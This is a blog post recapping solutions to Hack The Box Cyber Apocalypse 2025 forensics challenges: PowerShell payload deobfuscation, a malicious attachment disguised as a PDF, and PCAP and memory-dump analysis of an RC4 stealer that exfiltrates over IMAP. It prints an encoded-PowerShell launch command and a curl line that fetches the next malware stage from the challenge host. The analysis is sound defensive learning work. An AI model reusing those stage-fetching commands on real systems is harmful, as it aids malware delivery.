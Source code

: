 ```yaml
---
title: "HTB - Tales From Eldoria - Forensics"
seoTitle: "Hack The Box - Cyber Apocalypse CTF - Tales From Eldoria - Forensics"
datePublished: Wed Mar 26 2025 13:00:25 GMT+0000 (Coordinated Universal Time)
cuid: cm8pxn12n000h09i3e77rd630
slug: htb-ca-2025
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1742981905728/f18081ab-59de-4c08-b304-b772641e6022.png
tags: hacking, forensics, hackthebox, ethicalhacking, blueteam

---
```


%%[support-cta] 

Just quick recap of the Forensics tasks - **more details coming** in following days, have **a lot** to do outside the area of offensive security so, forgive me for this format this time. Please follow-up on Discord and other socials for updates.

Challenges described below are from the Hack The Box Cyber Apocalypse 2025 CTF - [Tales From Eldoria](https://www.hackthebox.com/events/cyber-apocalypse-2025).  
*Cover background image and HTB logo belongs to the Hack The Box (I’m not an author of those images).*

# Thorin’s Amulet

PowerShell payload deobfuscation. Decode command in script

```powershell
powershell.exe -NoProfile -NonInteractive -EncodedCommand /Base64 command/
```

Then

```powershell
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb/a541a
```

to obtain the next stage. Last stage contains encoded flag (just run it in Linux `pwsh`).

# A new Hire

Straightforward multistage payload, at the end there is a base64 encoded flag.

Read email, navigate to `storage.microsoftcloudservices.com:[PORT]/index.php` where another URL `http://IP:PORT/3fe1690d955e8fd2a0b282501570e1f4/resumes/` contains malicious file hiding as a PDF file

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742969315073/8837ffae-5661-49e8-95c7-bc4ca8764db4.png align="center")

That contains one more base64 PowerShell encrypted command, where again, base64 encoded flag is located.

# Silent Trap

In the PCAP file we can find contents of mails, packet 72 contains mail from threat actor with attachment `Eldoria_Balance_Issue_Report.pdf.exe`. Bytes can be extracted from packet 614. We can decompile the program and discover the cypher is RC4 where same function works for encryption & decryption and it exfitrates data through IMAP protocole. Combing through the PCAP file we can find whole communication between host and C&C at `192.168.91.173`. Now that we have the decryptor/encrypt from reverse engineered binary we can decode all transfered data and answer other questions.

# Stealth Invasion

Delivered `memdump.elf` Windows memory dump can be analyzed with `volatility3`. The issue in my side was outdated installation, after updating to latest there were no issues with volatility modules.

# Cave Expedition

All Windows logs were pruned after operation, only traces are in the `Microsoft-Windows-Sysmon_Operational.evtx` from which we can decode all PowerShell payloads to dicover what happened. Slowly we deobfuscate stage by stage malicious payloads finally to obtains the ecryption method - which once again happen to be XORing (which is reversable regadless of how many XOR factors were used - here 2 times). Then `map.pdf.secured` can be decrypted.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742970711240/9ca0841e-f5c9-47c0-992d-eb7157190c26.png align="center")

# ToolPie (soon)

*(Soon.. too good to not have own, dedicated article* 😉*)*

%%[follow-cta] 

# Tales for the Brave (soon)

*(Soon.. too good to not have own, dedicated article* 😉*)*

%%[join-cta]